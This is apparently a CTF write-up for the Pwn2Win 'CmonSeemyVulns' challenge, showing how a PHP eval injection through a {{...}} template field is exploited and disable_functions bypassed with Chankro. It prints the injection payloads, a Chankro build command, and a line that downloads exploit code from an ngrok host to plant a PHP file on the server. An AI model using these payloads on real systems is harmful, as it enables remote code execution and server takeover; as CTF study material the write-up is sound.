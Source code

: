 ```yaml
---
title: Pwn2Win - CmonSeemyVulns - Writeup
tags: web php disable_functions chankro
---
```


# Description

![2021-05-30_21-03](https://user-images.githubusercontent.com/84577967/120118699-267d5280-c194-11eb-8fae-0fec1de1b704.png)

We were given a source code with the Dockerfile.

[c_mon_see_my_vulns](https://github.com/ab2pentest/ctfwriteups/files/6566856/c_mon_see_my_vulns_70097e678d572b03e8098868191037f5c3518ca4a8d0512573845db8a293a153.tar.gz)

# Code Review

![2021-05-30_20-54](https://user-images.githubusercontent.com/84577967/120118712-31d07e00-c194-11eb-9ca7-dea97992fbed.png)

Snipped code from: index.php (Only PHP Part !)

![code](https://user-images.githubusercontent.com/84577967/174141852-b43da8d4-6069-43a4-a93f-406eb0b44b37.png)

So in the 7th line we have an eval inside a function `do_calcs` that has been called in the line 17 ! 
But first we have to check the 4th line where we have the regex pattern so our php code must be inside `{{PHP EVAL CODE}}`

# Solution

If we tries to send something like `200,{{phpinfo()}}` its going to be executed !

![2021-05-30_21-11](https://user-images.githubusercontent.com/84577967/120118671-fdf55880-c193-11eb-9db9-0f1846e00f00.png)

But what I noticed is disable functions

```
exec,system,passthru,shell_exec,escapeshellarg,escapeshellcmd,proc_close,proc_open,dl,popen,show_source,posix_kill,posix_mkfifo,posix_getpwuid,posix_setpgid,posix_setsid,posix_setuid,posix_setgid,posix_seteuid,posix_setegid,posix_uname,pcntl_exec,expect_popen
```

For such situations I always use Chankro => https://github.com/TarlogicSecurity/Chankro

First Let's build our payload:

```bash
python2 chankro.py --arch 64 --input shell.sh --path /var/www/html --output exploit.txt
```

The shell.sh content:

```
#!/bin/sh
/readflag > /var/www/html/flag.txt
```

Great! Now let's start a webserver using PHP or Python and move our exploit.txt to it and go directly to exploitation ...

```
200,{{file_put_contents("/var/www/html/exploit.php",file_get_contents("http://XXXXXXXXX.ngrok.io/exploit.txt"),FILE_APPEND)}}
```

After that we can browser the file http://127.0.0.1:1337/exploit.php

And will get easily our http://127.0.0.1:1337/flag.txt
